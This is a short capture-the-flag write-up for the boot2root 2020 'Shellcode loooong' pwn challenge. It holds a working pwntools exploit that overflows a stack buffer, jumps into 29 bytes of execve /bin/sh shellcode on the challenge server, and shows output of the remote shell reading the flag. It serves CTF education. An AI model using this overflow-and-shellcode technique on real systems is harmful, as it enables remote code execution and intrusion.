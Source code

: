 # boot2root 2020

## Shellcode loooong

> 495
>
> I dont like long long shellcodes keep them short and crispy
>
> `nc 35.238.225.156 1008`
>
> Author: TheBadGuy
> 
> [short](short)

Tags: _pwn_ _x86-64_ _remote-shell_ _bof_ _shellcode_


## Summary

This is 100% identical to [shellcode](https://github.com/datajerk/ctf-write-ups/tree/master/boot2root2020/shellcode), even the md5sums are the same.  See [shellcode](https://github.com/datajerk/ctf-write-ups/tree/master/boot2root2020/shellcode) for the write-up.

Someone fucked up.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./short')

if args.REMOTE:
    p = remote('35.238.225.156', 1008)
else:
    p = process(binary.path)

p.recvuntil('supposed to[')
_ = p.recvuntil(']')
buff = int(_[:-1],16)
log.info('buff: ' + hex(buff))

# http://shell-storm.org/shellcode/files/shellcode-905.php
# 29 bytes
shellcode  = b''
shellcode += b'\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf'
shellcode += b'\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54'
shellcode += b'\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05'

payload  = b''
payload += 0x18 * b'A'
payload += p64(buff + 0x18 + 8)
payload += shellcode

p.sendafter('answer now\n',payload)
p.interactive()
```

Different port number and binary name is all that differs.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/boot2root2020/shellcode_loooong/short'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[+] Opening connection to 35.238.225.156 on port 1008: Done
[*] buff: 0x7ffff75ce360
[*] Switching to interactive mode
$ cat flag
b00t2root{sH0rT3r_shellZ_c0d3}
```
